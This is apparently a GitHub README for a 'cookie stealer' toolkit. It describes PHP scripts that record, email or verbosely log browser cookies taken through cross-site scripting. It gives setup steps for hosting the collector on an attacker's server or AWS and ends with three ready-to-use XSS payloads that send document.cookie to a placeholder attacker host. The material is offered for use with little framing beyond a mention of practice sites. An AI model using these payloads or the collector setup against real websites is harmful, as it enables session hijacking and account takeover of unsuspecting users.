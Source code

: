 # hacksudo-cookies-stealer
here we created PHP Cookie Stealing Scripts which use in XSS/stored/relfect

1. **Cookiesteal-simple.php** - Records whatever "c" parameter holds, in example case the **document.cookie string,** writes value to **log.txt.** 

2. **Cookiemail.php** - This version code will mail the cookies to hacker mail using the PHP() mail function with subject “Stolen cookies”.

3. Cookiesteal-v.php (**verbose**) - **Collects the IP address, port numbe**r, **host**(usually computer-name), user agent and cookie.

## How To Usage
1. On the remote attacker machine, start the webserver (Apache2 in example),or you can use PHP server
php -S attackerIP:80 ( user attacker ip , and port you can use 8080 also , but remeber your apache2 must  stop now )
do this command at same path where you took your cookies script done your ready now ...
now find XSS site , for practice purpose you can use Beebox , which is available at www.root-me.org , get XSS and use XSS paylaod which is given below of this README

enjoy :D 
www.hacksudo.com/contact
vishal@hacksudo.com
```
sudo service apache2 start
```
2. Git clone the repo locally and then push the chosen "Cookie stealer" PHP script from local host to the attacking machine

```
git clone https://github.com/hacksudo/hacksudo-cookies-stealer

cd hacksudo-cookies-stealer

sudo scp cookiestealer-simple.php username@AttackMachine:/var/www/html/

sudo scp log.txt username@AttackMachine:/var/www/html/
```
**AWS Version**:

```
scp -i AWS-Key.pem cookiesteal-simple.php ec2-user@ec2[YOUR IP].us-east-2.compute.amazonaws.com:~/.

sudo mv cookiestealer-simple.php /var/www/html/
```

Example: http://[Attacker Webserver]/cookiesteal-simple.php

##### Setting Permissions:

Figure out which user is owning httpd process using the following command:
```
ps aux | grep httpd
```
Output should be similar to this:
```
ec2-user  1569  0.0  0.1  12840  1064 pts/0    S+   17:55   0:00 grep httpd
```
So now you know the user who is trying to write files, which is in this case ec2-user You can now go ahead and set the permission for directory where your php script is trying to write something:
```
sudo chown ec2-user:ec2-user /var/www/html/

sudo chmod 755 /var/www/html/
```

_XSS Payload Examples_:
* <script javascript:text>document.location="http://[Attacker Webserver]cookiesteal-simple.php?c=" + document.cookie + "&t=Alert"; </script>

* <script>document.location='http://[Attacker Webserver]/cookiesteal-v.php?cookie=' + document.cookie</script>

* <img src=x onerror=this.src='http://[Attacker Webserver]/cookiesteal-v.php?cookie='+document.cookie>
